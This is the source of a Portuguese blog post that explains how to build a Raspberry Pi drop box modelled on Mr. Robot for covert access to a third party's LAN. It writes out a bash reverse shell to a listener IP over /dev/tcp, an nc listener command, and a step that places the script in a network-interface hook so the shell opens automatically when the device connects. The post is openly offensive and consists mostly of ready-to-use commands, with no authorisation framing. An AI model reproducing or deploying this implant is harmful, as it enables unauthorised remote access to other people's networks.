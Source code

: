 ```yaml
---
layout: post
title: Mr. robot's raspberry Pi
description: "Como criar um raspberry Pi semelhante ao utilizado por Elliot na primeira temporada de Mr Robot"
tags: [Mr_robot, raspberry, hack, reverse_shell]
categories: [raspberry, hack]
author: lgribeiro
published: true
---
```


Algum tempo atrás estava dando uma olhada nos posts da série Mr Robot do [null-byte](http://null-byte.wonderhowto.com/how-to/mr-robot-hacks/) e um artigo em especial me chamou a atenção.

A publicação sobre como criar um raspberry para hacking não retrata fielmente as condições encontradas por Elliot no episódio eps1.3\_\_da3m0ns.mp4. Então, optei por adaptar um pouco o tutorial para ele se tornar mais parecido com o conteúdo apresentado na televisão. De início, os passos serão bem semelhantes aos apresentados pelo null-byte mas no final, teremos um algo a mais.

1.Baixar o [Kali linux para ARM](https://www.offensive-security.com/kali-linux-arm-images/). Escolha aquela que se adequa ao hardware que estiver utilizando. Iremos utilizar o Kali pois é uma distribuição linux focada em segurança, e por conta disso, fornecerá diversas ferramentas que poderão ser utilizadas em missões futuras.

<figure class="center">
<img src="{{ site.url }}/images/offensive-sec.png" alt="">
</figure>


2.Feito isso, precisamos criar um script que funcionará como nosso nosso shell reverso no raspberry. Para tal, é recomendável utilizar o [reverse shell cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) da pentest Monkey. Utilizaremos o shell reverso abaixo.

{% highlight bash%}
{% raw %}
bash -i >& /dev/tcp/<ip da maquina que está escutando>/8080 0>&1
{% endraw %}
{% endhighlight %}

Colocamos então o código acima em um arquivo (chamaremos ele de reverse) e concedemos a ele permissão de execução da seguinte maneira:

{% highlight bash%}
{% raw %}
chmod +x reverse
{% endraw %}
{% endhighlight %}

Obs: Vale ressaltar que não devemos colocar o script com extensão .sh pois o diretório em que ele será armazenado não executa arquivos com essa extensão.

3.Agora, é necessário preparar uma máquina capaz de receber essa shell fornecida pelo raspberry. Para isso, podemos utilizar o canivete suiço de conexões TCP, o netcat. Basta colocar o netcat para escutar na porta em que a shell será fornecida da seguinte forma:

{% highlight bash %}
{% raw %}
 nc -lvp 8080
{% endraw %}
{% endhighlight %}

4.Com a estrutura pronta, precisamos organizar tudo o que temos para que seja possível acessar o raspberry dentro de uma LAN de terceiros. A partir desse ponto nos desviamos um pouco do artigo que utilizamos como base.
No lugar de teclado, tela e demais periféricos, colocaremos nosso script no diretório /etc/network/interfaces/ifup. 

{% highlight bash %}
{% raw %}
mv reverse /etc/network/interfaces/ifup
{% endraw %}
{% endhighlight %}

Dessa forma, assim que a interface de rede do nosso dispositivo começar a funcionar ele executará o script, que fornecerá a shell para a máquina de fora da LAN.

![elliot wins]({{ site.url }}/images/mr-robot-success.1280x600.jpg)

Ressalvas:

* Para testar, utilize duas máquinas na mesma LAN, ou a máquina que escuta deverá ter um IP real ou ter um portfoward settado no roteador para que as conexões recebidas em detarmidana porta sejam redirecionadas para a máquina que está escutando.

Quaisquer dúvidas, entre em contato via email: lgribeiro at gris.dcc.ufrj.br


